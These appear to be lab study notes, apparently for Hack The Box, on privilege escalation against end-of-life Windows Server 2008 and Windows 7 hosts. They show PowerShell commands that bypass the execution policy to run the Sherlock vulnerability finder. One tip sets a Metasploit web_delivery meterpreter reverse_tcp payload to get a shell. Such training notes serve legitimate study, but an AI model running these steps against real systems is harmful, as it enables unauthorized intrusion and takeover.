## **Dealing with End of Life Systems**

### Server 2008 Case Study

#### Running Sherlock

```powershell
PS C:\htb> Set-ExecutionPolicy bypass -Scope process
PS C:\htb> Import-Module .\Sherlock.ps1
PS C:\htb> Find-AllVulns
```

> In `msfconsole`  make sure to search by CVEID from output above
{: .prompt-tip }
> Try using `rdesktop -u [Username] -p [Password] [IP Address]` if `xfreerdp` does not work
{: .prompt-tip }
> Use `exploit(multi/script/web_delivery) >> set payload windows/x64/meterpreter/reverse_tcp` Module in Metasploit for Shell
{: .prompt-tip }

### Windows 7 Case Study

We can also use this [local exploit suggester module](https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/) (`msfconsole` module) which will help us quickly find any potential privilege escalation vectors and run them within Metasploit should any module exist.

For our Windows 7 target, we can use `Sherlock` again like in the Server 2008.

We also have [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) but it uses `python` 2.7
